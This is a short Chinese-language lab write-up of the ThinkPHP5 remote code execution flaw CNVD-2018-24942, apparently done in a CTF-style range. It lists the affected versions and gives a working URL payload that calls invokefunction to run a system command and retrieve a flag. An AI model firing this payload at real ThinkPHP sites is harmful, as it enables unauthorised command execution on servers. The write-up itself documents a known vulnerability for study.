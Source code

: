 CNVD-2018-24942

# ThinkPHP5 远程代码执行漏洞

## 一、漏洞描述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 二、影响产品

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 三、利用流程

1 此漏洞对应靶场环境为 thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)

![avatar](./24942-1.png)
2 访问其如图所示

![avatar](./24942-2.png)

3 在其地址增加路径与参数即可

    /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
4 成功得到 flag
![avatar](./24942-3.png)

参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2018-24942
